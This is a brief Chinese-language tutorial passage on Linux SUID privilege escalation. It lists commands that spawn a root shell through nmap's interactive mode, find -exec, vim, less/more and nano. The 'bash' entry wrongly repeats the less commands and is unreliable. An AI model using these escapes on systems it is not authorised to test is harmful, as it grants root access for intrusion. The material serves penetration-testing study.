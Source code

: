 查看文件权限

![](https://s2.loli.net/2022/05/03/WlE8fKQnMkUw2FO.png)

可见,权限为suid且所有者为root

### nmap(2.02~5.02)

早期nmap带有交互模式,运行执行shell命令

```bash
nmap --interactive
nmap> !sh
sh-3.2# whoami
root
```

### find

```bash
touch demo
find demo -exec whoami \;
find demo -exec '/bin/sh' \;
```

### vim

```bash
vim/vi
:shell
```

### less/more

```bash
less /etc/passwd
!/bin/sh
```

### bash

```bash
less /etc/passwd
!/bin/sh
```

### nano

```bash
nano #进入nano编辑器
Ctrl + R
Ctrl + X
即可输入命令
```
